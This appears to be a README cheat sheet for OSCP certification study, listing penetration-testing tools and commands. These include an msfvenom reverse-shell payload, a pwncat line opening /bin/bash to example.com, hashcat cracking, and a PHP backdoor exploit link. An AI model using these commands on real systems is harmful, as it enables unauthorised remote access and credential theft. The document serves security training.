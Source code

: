 # Offensive Security Certified Professional
## OSCP Tools and Resources for Your Journey


##### Nmap Automator. Save time on port/vuln scans:
https://github.com/21y4d/nmapAutomator

##### PWNCAT - Unbreakable Persistent Reverse Shell (Also IDS/Firewall Evasion :)
https://github.com/cytopia/pwncat



Category | Command Examples
------------ | -------------
MSFVENOM | msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.221 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010.exe
SMB | python3 smbserver.py lab "~/OSCP/EXPLOITS/MS17-010/CLISHARE"
NETCAT | nc -nvlp 443   *(Creates a local listener)*
CRACKING | hashcat -m 1000 -a 0 --force --show --username hash.txt wordlist1.lst 
SHELL | Resolve "TERM environment variable not set":  *$ *export TERM=xterm**
SHELL | Fully interactive shell (Python): *$ python3 -c 'import pty; pty.spawn("/bin/bash")'*
SHELL | PWNCAT Ex. *$ pwncat -e '/bin/bash' example.com 4444*

## Exploits
PHP 8.1.0-dev Backdoor RCE
https://github.com/flast101/php-8.1.0-dev-backdoor-rce

